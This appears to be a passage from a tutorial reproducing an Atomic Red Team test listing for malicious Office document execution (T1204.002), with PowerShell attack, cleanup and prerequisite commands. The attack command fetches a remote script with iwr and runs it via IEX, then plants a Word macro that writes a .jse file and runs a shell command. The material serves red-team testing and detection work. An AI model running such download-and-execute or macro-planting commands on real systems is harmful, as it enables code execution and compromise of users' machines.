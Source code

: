 ```javascript

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Command (with inputs):
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"C:\Users\Public\art.jse`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "Word"

Cleanup Commands:
Command:
Remove-Item #{jse_path} -ErrorAction Ignore
Command (with inputs):
Remove-Item C:\Users\Public\art.jse -ErrorAction Ignore

Dependencies:
Description: Microsoft Word must be installed
Check Prereq Command:
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Check Prereq Command (with inputs):
try {
  New-Object -COMObject "Word.Application" | Out-Null
  $process = "Word"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Get Prereq Command:
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
Get Prereq Command (with inputs):
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
[!!!!!!!!END TEST!!!!!!!]

```

The output above is clearly split up into multiple parts, each matching a test. Let's examine what type of information is provided in a test. We will use the test we want to run as an example.
